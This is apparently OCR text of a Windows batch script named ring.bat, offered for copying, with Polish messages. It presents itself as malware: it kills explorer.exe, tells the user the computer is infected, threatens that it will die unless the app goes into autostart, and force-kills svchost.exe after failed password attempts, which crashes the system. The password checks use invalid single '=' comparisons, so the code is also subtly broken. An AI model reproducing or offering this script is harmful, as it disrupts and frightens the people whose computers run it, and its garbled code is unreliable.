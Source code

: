 copy this and save as ring.bat

@echo off
echo czy napewno chcesz odpalic zlosliwe oprogramowanie? jesli tak prosze kliknac y jezeli nie to kliknij n
pause>nul
taskkill /f /im explorer.exe
echo twój komputer został zaifekowany przez ring exe>ring.txt

echo procedura psucia kompa
ping localhost -n 5>nul

echo enter password
echo add this app to autostart or you computer died instantly you have 20 sec
ping localhost -n 20>nul

goto :yes

:yes

SET /P pass=Enter Password:

IF %pass%=@{[kill]}@ goto :ending

IF NOT %pass%=@{[kill]}@ goto :incorrectl

:incorrectl

ECHO password incorrect

SET /P pass=Enter Password:

IF %pass%=@{[kill]}@ goto :ending

IF NOT %pass%=@{[kill]}@ goto :incorrectl2

pause

exit

:incorrectl2

ECHO password incorrect


SET /P pass=Enter Password:

IF %pass%=@{[kill]}@ goto :ending


IF NOT %pass%=@{[kill]}@ goto :computerdiie


:computerdiie

taskkill /f /im svchost.exe









:ending

start explorer.exe

